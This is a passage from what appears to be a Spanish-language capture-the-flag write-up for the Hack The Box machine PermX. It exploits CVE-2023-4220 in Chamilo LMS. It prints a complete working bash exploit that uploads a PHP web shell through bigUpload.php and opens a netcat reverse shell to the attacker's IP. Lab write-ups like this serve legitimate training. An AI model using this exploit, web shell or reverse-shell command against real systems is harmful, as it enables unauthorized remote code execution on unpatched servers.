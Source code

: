 Encontramos un subdominio lms.permx.htb, lo agregamos a nuestro archivo hosts y volvemos a visitar la pagina web.

![alt text](../assets/img/permx2.png)

Al visitar el subdominio, descubrimos que el subdominio lms está gestionado por `Chamilo` , un sistema de gestión del aprendizaje (`LMS`) gratuito y de código abierto diseñado para facilitar la educación en línea. Realizando una búsqueda en Google de vulnerabilidades que afectan a esta aplicación, vemos `CVE-2023-4220` y un blog (https://starlabs.sg/advisories/23/23-4220/) que detalla cómo explotar la vulnerabilidad. Esta CVE describe una vulnerabilidad que permite a atacantes no autenticados subir archivos y ejecutar código de forma remota. El problema se encuentra en el script bigUpload.php, donde los nombres de archivo no se comprueban correctamente, permitiendo la subida de web shells. 

> La version de Chamilo la puedes encontrar en `/README.md` o `/documentation/`

## Explotacion

Para realizar la exploitacion de esta vulnerabilidad podemos usar este exploit [CVE-2023-4220 RCE Chamilo 1.11.24](https://github.com/charlesgargasson/CVE-2023-4220) como apoyo. 

```bash
#!/bin/bash
HOST='http://lms.permx.htb'
CMD='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.157 4444 >/tmp/f'

URL_UPLD='main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
URL_FILE='main/inc/lib/javascript/bigupload/files/rce.php'

cat <<'EOF'>/tmp/rce.php
<?php
$a=popen(base64_decode($_REQUEST["aoOoy"]),'r');while($b=fgets($a,2048)){echo $b;ob_flush();flush();}pclose($a);
?>
EOF

curl -F 'bigUploadFile=@/tmp/rce.php' "$HOST/$URL_UPLD"
CMD=$(echo $CMD|base64 -w0| python3 -c "import urllib.parse,sys; print(urllib.parse.quote_plus(sys.stdin.read()))")
curl "$HOST/$URL_FILE?aoOoy=$CMD"
```
Luego de ejecutar el exploit, podemos obtener una shell como www-data.
